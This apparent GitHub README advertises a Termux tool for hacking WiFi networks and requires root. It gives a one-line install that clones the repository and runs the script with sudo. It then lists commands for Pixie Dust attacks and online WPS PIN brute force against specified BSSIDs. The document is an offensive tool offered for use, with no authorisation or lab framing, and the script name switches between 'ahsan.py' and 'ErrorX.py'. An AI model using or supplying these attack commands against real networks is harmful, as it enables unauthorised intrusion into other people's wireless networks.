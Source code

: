 ## Ahsan Wifi_Hack 1
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/MDAhsanullah/Ahsanullahwifi && cd Ahsanullahwifi && chmod +x ahsan.py && sudo python ahsan.py --help
```

#### Example : `sudo python ahsan.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ErrorX.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ErrorX.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ErrorX.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
